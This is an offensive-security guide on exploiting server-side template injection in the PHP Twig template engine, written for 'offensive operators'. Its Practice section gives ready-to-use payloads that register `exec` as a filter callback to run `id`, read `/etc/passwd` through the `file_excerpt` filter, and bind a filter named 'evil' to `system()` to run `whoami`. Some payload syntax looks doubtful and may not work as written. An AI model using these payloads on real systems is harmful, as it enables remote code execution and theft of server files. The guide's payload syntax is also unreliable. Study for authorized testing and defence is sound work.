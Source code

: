 ```yaml
---
title: 'Twig Exploitation: Mastering Template Injection'
description: Explore the intricacies of Twig exploitation to achieve command execution
  and file inclusion using template injection techniques.
keywords:
- Twig exploitation
- template injection
- remote code execution
- file inclusion
- PHP security
- Symfony vulnerabilities
- Twig filters
- server-side template injection
---
```


# Twig Exploitation

## Context

In this guide, we focus on exploiting Twig, a PHP-based template engine commonly used in Symfony applications and other frameworks. Offensive operators will learn how to identify and exploit Twig template injection vulnerabilities to achieve remote code execution or unauthorized information disclosure. The reader is expected to have knowledge of template engines, server-side rendering, PHP syntax, and general server-side template injection (SSTI) concepts.

## Theory

### Twig Template Engine Internals

Twig is a flexible, fast, and secure template engine for PHP. It is integral to applications like Symfony, where it processes server-side templates to produce dynamic web pages. While designed to abstract logic from presentation, misuse or improper security configurations can lead to vulnerabilities. Rendering user inputs directly into Twig templates without adequate sanitation is a common vulnerability model that attackers exploit to execute code or access sensitive data.

### Twig Expression Syntax and Attack Surface

Twig expressions are encapsulated in double curly braces `{{ }}` for variable output purposes, while logic control structures are enclosed with `{% %}`. The attack surface arises when attackers can inject Twig expressions into the template context. Despite Twig's restrictions on direct PHP function invocation, attackers often bypass these limitations by exploiting lesser-known objects or filters within the Twig environment.

### Critical Twig Objects and Filters for Exploitation

Several objects and filters within Twig can be repurposed for malicious activities.

- `{{ _self }}`: Accesses the current template object exposing internal functionalities.
- `{{ _self.env }}`: Provides access to the Twig environment, offering deeper interaction opportunities, often used as a pivot for further exploitation.
- Filters like `file_excerpt` may allow file inclusion, and under certain conditions, facilitate remote command execution.

### Twig RCE and File Inclusion Vectors

Exploitation strategies typically involve leveraging vulnerable objects or filters to execute system commands or perform file operations. Implementation flaws, such as misconfigured sandboxes or custom filters, can inadvertently restore access to dangerous PHP functions that are generally restricted. Maintaining awareness of these vectors is key to successful exploitation and overall campaign resilience.

## Practice

### Twig Code Execution via file_excerpt Filter

In Twig, the environment can be manipulated to inject custom functionalities via its filters. Below are steps to achieve RCE through filter abuse:

- **Injection to Register `exec`:**

    ```jinja
    {{ _self.env.registerUndefinedFilterCallback('exec') }}
    ```

    This statement sets up `exec` as a filter callback, effectively enabling command execution capabilities through Twig filter syntax.

- **Execute 'id' Command:**

    ```jinja
    {{ ['id']|filter('exec') }}
    ```

    This filter invocation executes the `id` command on the server, showcasing proof of concept for remote code execution.

### Twig File Inclusion via file_excerpt

Misuse of `file_excerpt` can allow attackers to read important system files:

- **Read Sensitive Files:**

    ```jinja
    {{ _self.env.getFilter('file_excerpt').getCallable()('/etc/passwd', 1) }}
    ```

    Using the `file_excerpt` filter, sensitive files such as `/etc/passwd` can be exposed, emphasizing data access through variable reference exploitation.

### Twig RCE via Custom Filter Injection

Custom filters can be added to escalate the exploit:

- **Custom Filter for System Execution:**

    ```jinja
    {{ _self.env.addFilter(name='evil', filter=constant('system')) }}
    ```

    With this payload, a filter connecting to PHP's `system()` function is injected into the Twig environment.

- **Command Execution:**

    ```jinja
    {{ 'whoami'|evil }}
    ```

    This command uses the malicious 'evil' filter to execute `whoami`, demonstrating remote code execution capabilities.

## Tools

- **Burp Suite**
- **curl**

The above tools are essential for testing and exploiting SSTI vulnerabilities in real-world applications.